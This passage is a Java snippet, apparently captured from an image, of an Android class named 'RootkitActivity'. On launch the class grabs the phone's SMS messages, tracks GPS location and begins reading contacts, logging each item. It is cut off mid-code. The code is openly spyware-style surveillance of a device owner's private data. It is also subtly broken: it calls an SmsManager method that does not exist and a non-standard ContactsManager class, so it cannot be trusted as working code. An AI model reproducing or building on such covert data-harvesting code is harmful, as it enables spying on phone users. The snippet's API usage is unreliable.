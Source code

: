 ```java
import android.telephony.SmsManager;

import android.util.Log;



public class RootkitActivity extends Activity {



    private static final String TAG = "RootkitActivity";



    @Override

    protected void onCreate(Bundle savedInstanceState) {

        super.onCreate(savedInstanceState);

        setContentView(R.layout.activity_main);



        // Grab messages

        SmsManager smsManager = SmsManager.getDefault();

        String message = smsManager.getMessage();

        Log.d(TAG, "Grabbed message: " + message);



        // Grab location

        LocationManager locationManager = (LocationManager) getSystemService(Context.LOCATION_SERVICE);

        LocationListener locationListener = new LocationListener() {

            @Override

            public void onLocationChanged(Location location) {

                double latitude = location.getLatitude();

                double longitude = location.getLongitude();

                Log.d(TAG, "Grabbed location: " + latitude + ", " + longitude);

            }

        };

        locationManager.requestLocationUpdates(LocationManager.GPS_PROVIDER, 0, 0, locationListener);



        // Grab contacts

        ContactsManager contactsManager = new ContactsManager(getApplicationContext());
```